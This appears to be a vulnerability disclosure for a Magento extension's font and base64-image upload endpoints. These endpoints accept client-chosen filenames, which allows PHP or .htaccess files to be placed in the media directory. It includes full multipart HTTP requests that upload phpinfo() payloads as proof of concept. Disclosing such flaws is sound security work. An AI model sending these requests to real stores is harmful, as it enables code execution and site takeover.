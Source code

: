 # Upload any file to the server

The extension contains several endpoints to allow file uploads. Uploaded files are placed in various subfolders inside Magento's `media/` directory.
By default, Magento places an `.htaccess` file in this directory to prevent code execution in `.php` and other common filetypes.
However, based on server configuration, it is possible that some executable extensions are not blocked and can be leveraged for code execution.
Moreover, some of these endpoints trust the client-provided filename, which means you can upload another `.htaccess` file to counteract those restrictions.

## Endpoint 1

### Request:
```
POST https://testing.local.tld/pdp/index/uploadFont/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="file"; filename="something.ttf.php"
Content-Type: application/octet-stream

<?php

phpinfo();

---------------------------acebdf13572468--
```

### Response
Usually empty, may raise an error with certain file extensions.

The uploaded file is placed in Magento's `media/pdp/fonts/` directory.
Its name is is the same as given in the request.

If the second token of the provided filename, when split on dot, is a valid font type,
and a font with this name is not registered in the system,
the new font name will be inserted into the db as a new valid font.
Otherwise, an error will be raised, but the uploaded file will already be in the target directory.

--- 

## Endpoint 2

### Request:
```
POST https://testing.local.tld/pdp/index/saveBase64Image/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="base_code_image"

data:text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
---------------------------acebdf13572468
Content-Disposition: form-data; name="format"

php
---------------------------acebdf13572468--
```
